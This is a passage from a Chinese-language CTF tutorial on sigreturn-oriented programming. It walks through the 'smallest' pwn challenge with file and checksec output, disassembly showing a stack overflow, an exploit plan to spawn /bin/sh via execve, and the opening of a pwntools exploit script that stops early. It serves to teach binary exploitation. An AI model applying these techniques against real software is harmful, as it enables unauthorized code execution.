 ## 利用工具

**值得一提的是，在目前的pwntools中已经集成了对于srop的攻击。**

## 示例

这里以360春秋杯中的smallest-pwn为例进行简单介绍。基本步骤如下

**确定文件基本信息**

```text
➜  smallest file smallest     
smallest: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, stripped
```

可以看到该程序为64位静态链接版本。

**检查保护**

```text
➜  smallest checksec smallest     
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

程序主要开启了NX保护。

**漏洞发现**

实用IDA直接反编译看了一下，发现程序就几行汇编代码，如下

```asm
public start
start proc near
xor     rax, rax
mov     edx, 400h
mov     rsi, rsp
mov     rdi, rax
syscall
retn
start endp
```

根据syscall的编号为0，可以知道改程序执行的指令为read(0,$rsp,400)，即向栈顶读入400个字符。毫无疑问，这个是有栈溢出的。

**利用思路**

由于程序中并没有sigreturn调用，所以我们得自己构造，正好这里有read函数调用，所以我们可以通过read函数读取的字节数来设置rax的值。重要思路如下

- 通过控制read读取的字符数来设置RAX寄存器的值，从而执行sigreturn
- 通过syscall执行execve("/bin/sh",0,0)来获取shell。

**漏洞利用程序**

```python
from pwn import *
from LibcSearcher import *
small = ELF('./smallest')
if args['REMOTE']:
    sh = remote('127.0.0.1', 7777)
else:
    sh = process('./smallest')
context.arch = 'amd64'
context.log_level = 'debug'
syscall_ret = 0x00000000004000BE
start_addr = 0x00000000004000B0
# set start addr three times
payload = p64(start_addr) * 3
```